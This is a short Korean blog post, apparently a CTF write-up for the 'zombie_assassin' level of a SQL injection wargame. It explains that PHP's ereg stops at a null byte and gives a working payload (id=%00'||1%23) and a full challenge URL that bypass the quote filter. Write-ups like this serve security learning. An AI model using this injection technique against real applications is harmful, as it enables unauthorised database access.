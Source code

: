 ```yaml
---
layout: post
title: LOS ZOMBIE_ASSASSIN 
date: 2015-10-23 00:42:00 +0900
category: Hacking
---
```

자 문제를 보면 
```
  if(@ereg("'",$_GET[id])) exit("HeHe"); 
  if(@ereg("'",$_GET[pw])) exit("HeHe"); 
```
ereg가 있다.



취약하다



ereg 와 eregi는 취약하다

ereg는  null값까지만 받고





떄문에 %00을 넣어주고 



id=%00'||1%23

해주게 되면 id를 그만 입력받고 뒤에 값을 || 연산한후 뒤에 쿼리를 주석처리해 버린다.



```
http://los.sandbox.cash/chall/zombie_assassin_eb9c4ab86b8c26748f3ce3e91dcd4dd8.php?id=%00%27||1%23
```






